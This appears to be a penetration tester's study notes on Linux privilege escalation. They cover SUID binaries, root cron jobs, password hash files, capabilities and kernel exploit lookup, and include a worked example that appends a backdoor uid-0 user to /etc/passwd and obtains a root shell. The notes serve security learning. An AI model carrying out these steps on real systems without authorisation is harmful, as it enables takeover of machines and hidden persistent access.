 # Linux Privilege Escalation

- <https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md>
- <https://book.hacktricks.xyz/linux-hardening/privilege-escalation>



`su - root`




`sudo -l`
list the privileges for the invoking user (or the user specified by the -U option)

`find / -type f -perm -u=s 2>/dev/null`
The SUID bit is a special permission in Unix/Linux systems that allows a file to be executed with the permissions of the file's owner rather than the user who executed the file.


`bash -p`
The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.













## Exploiting Misconfigured Cron Jobs

```
# show cronjob set for current user
crontab -l

# identify wheter a not privileged user string is in any script
cd /
grep -rnw /usr -r "/home/[NOT PRIVELIGED USER]/[ROOT OWNED BIN]"
```


Linux implements task scheduling through a utility called Cron.

Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule.

An application, or script that has been configured to be run repeatedly with `cron` is known as a "cron job".

`cron` can be used to automate or repeat a wide variety of functions on a system, from daily backups to system upgrades and patches.

The crontab file is a configuration file that is used by the Cron utility to store and track Cron jobs that have been created.



Cron jobs can also be run as any user on the system, this is a very important factor to keep an eye on as we will be targeting Cron jobs that have been configured to be run as the `root` user.

This is primarily because, any script or command that is run by a Cron job will run as the root user and will consequently provide us with root access.

System-level scheduled jobs are executed with root user privileges and system administrators often create scripts for cron jobs with insecure permissions.

In order to elevate our privileges, we will need to find and identify cron jobs scheduled by the root user or the files being processed by the cron job.



















## Linux Password Hashes

Linux has multi-user support and as a result, multiple users can access the system simultaneously. This can be seen as both an advantage and disadvantage from a security perspective, in that, multiple accounts offer multiple access vectors for attackers and therefore increase the overall risk of the server.

All of the information for all accounts on Linux is stored in the passwd file located in: `/etc/passwd`

We cannot view the passwords for the users in the passwd file because they are encrypted and the passwd file is readable by any user on the system.

All the encrypted passwords for the users are stored in the shadow file. it can be found in the following directory: `/etc/shadow`

The shadow file can only be accessed and read by the root account, this is a very important security feature as it prevents other accounts on the system from accessing the hashed passwords.



The `passwd` file gives us information in regards to the hashing algorithm that is being used and the password hash, this is very helpful as we are able to determine the type of hashing algorithm that is being used and its strength. We can determine this by looking at the number after the username encapsulated by the dollar symbol ($).

Value	Hashing Algorithm
$1		MD5
$2		Blowfish
$5		SHA-256
$6		SHA-512








For backwards compatibility, if a password hash is present in the second column of an `/etc/passwd` user record, it is considered valid for authentication and it takes precedence over the respective entry in `/etc/shadow`, if available. This means that if we can write into `/etc/passwd`, we can effectively set an arbitrary password for any account.



Example:
Add another superuser (root2) and the corresponding password hash to `/etc/passwd`. 
We will first generate the password hash using the `openssl` tool and the `passwd` argument.
By default, if no other option is specified, `openssl` will generate a hash using the `crypt` algorithm, a supported hashing mechanism for Linux authentication. The output of the OpenSSL `passwd` command may vary depending on the system executing it. On older systems, it may default to the DES algorithm, while on some newer systems it could output the password in MD5 format.

```
joe@debian-privesc:~$ openssl passwd w00t
Fdzt.eqJQ4s0g

joe@debian-privesc:~$ echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd

joe@debian-privesc:~$ su root2
Password: w00t

root@debian-privesc:/home/joe# id
uid=0(root) gid=0(root) groups=0(root)
```
















## Exploiting SUID Binaries





This is the functionality that we will be attempting to exploit in order to elevate our privileges, however, the success of our attack will depend on the following factors:

- Owner of the SUID binary – Given that we are attempting to elevate our privileges, we will only be exploiting SUID binaries that are owned by the `root` user or other privileged users.

- Access permissions – We will require executable permissions in order to execute the SUID binary.







## Linux Capabilities

Capabilities are extra attributes that can be applied to processes, binaries, and services to assign specific privileges normally reserved for administrative operations, such as traffic capturing or adding kernel modules. Similarly to setuid binaries, if misconfigured, these capabilities could allow an attacker to elevate their privileges to root.









## Linux Kernel Exploitation

Kernel exploits on Linux will typically target vulnerabilities In the Linux kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.

This process will differ based on the Kernel version and distribution being targeted and the kernel exploit being used.

Privilege escalation on Linux systems will typically follow the following methodology:
- Identifying kernel vulnerabilities
- Downloading, compiling and transferring kernel exploits onto the target system.


Linux-Exploit-Suggester - This tool is designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine. It assesses (using heuristics methods) the exposure of the given kernel on every publicly known Linux kernel exploit.
- GitHub: https://github.com/mzet-/linux-exploit-suggester







Example:
```
joe@ubuntu-privesc:~$ cat /etc/issue
Ubuntu 16.04.4 LTS \n \l

joe@ubuntu-privesc:~$ uname -r 
4.4.0-116-generic

joe@ubuntu-privesc:~$ arch 
x86_64


searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
```

























## MSF

```
meterpreter > getpriv
meterpreter > getsystem

```


/post/multi/recon/local_exploit_suggester


